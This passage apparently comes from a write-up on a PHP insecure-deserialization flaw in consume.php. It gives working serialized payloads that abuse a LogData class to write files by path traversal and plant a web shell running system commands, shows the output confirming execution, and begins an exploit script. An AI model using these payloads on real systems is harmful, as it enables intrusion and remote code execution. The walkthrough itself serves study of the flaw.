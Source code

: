 #### 2.6. The vulnerability in `consume.php:4`

```
$car = unserialize(base64_decode($contents));
```
Note: Untrusted used data de-serialized which also allows `LogData` objects to be consumed server-side directly from `consume.php`.


#### 2.7. Abusing `LogData` class 

1. Usage of `LogData` class:
```
php > print_r(new LogData('TEST', 'log.txt'));
O:7:"LogData":2:{s:4:"data";s:4:"TEST";s:4:"file";s:7:"log.txt";}
```

2. Use the `LogData` class outside the context of `Car` object (`new LogData($log, 'log.txt');`)
```
# data='O:7:"LogData":2:{s:4:"data";s:4:"TEST";s:4:"file";s:7:"log.txt";}'
# data=`echo -n $data | base64`
# http -f http://127.0.0.1:9090/consume.php data="$data" -b
LogData Object
(
    [data] => TEST
    [file] => log.txt
)
```
This will write arbitrary content to the `log.txt`.

3. Writing a backdoor file:
```
# data='O:7:"LogData":2:{s:4:"data";s:18:"<?=system('whoami');";s:4:"file";s:10:"../lol.php";}'
# data=`echo -n $data | base64`
# http -f http://127.0.0.1:9090/consume.php data="$data" -b
LogData Object
(
    [data] => <?=system(whoami);
    [file] => ../lol.php
)
# http -f http://127.0.0.1:9090/lol.php -b
userx
userx
```
Note: this only works because we control the file name (path), and its contents.


#### 2.8. Building a malicious `LogData` object

File: `sploit.php`
```php
<?php

class LogData
{
    public $data;

    public function __construct($data, $file)
    {
        $this->data = $data;
        $this->file = $file;
    }

    public function __destruct()
    {
        file_put_contents(
            dirname(__FILE__) . '/../logs/' . $this->file,
            $this->data . PHP_EOL,
```